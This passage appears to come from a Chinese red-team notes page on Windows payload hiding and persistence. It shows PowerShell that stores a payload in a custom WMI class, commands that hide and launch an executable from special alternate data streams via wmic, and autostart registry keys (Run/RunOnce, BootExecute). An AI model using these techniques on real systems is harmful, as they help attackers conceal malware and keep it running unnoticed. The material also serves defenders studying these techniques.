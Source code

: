 **WMI** : 存储：

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```

读取:

```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

**包含数字签名的PE文件** 利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名 **特殊ADS** …

```
type putty.exe > ...:putty.exe
wmic process call create c:\test\ads\...:putty.exe
```

特殊COM文件

```
type putty.exe > \\.\C:\test\ads\COM1:putty.exe
wmic process call create \\.\C:\test\ads\COM1:putty.exe
```

磁盘根目录

```
type putty.exe >C:\:putty.exe 
wmic process call create C:\:putty.exe
```

##### 3、Run/RunOnce Keys

用户级

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

管理员

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

##### 4、BootExecute Key

由于smss.exe在Windows子系统加载之前启动，因此会调用配置子系统来加载当前的配置单元，具体注册表键值为：

```
HKLM\SYSTEM\CurrentControlSet\Control\hivelist
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Session Manager
```
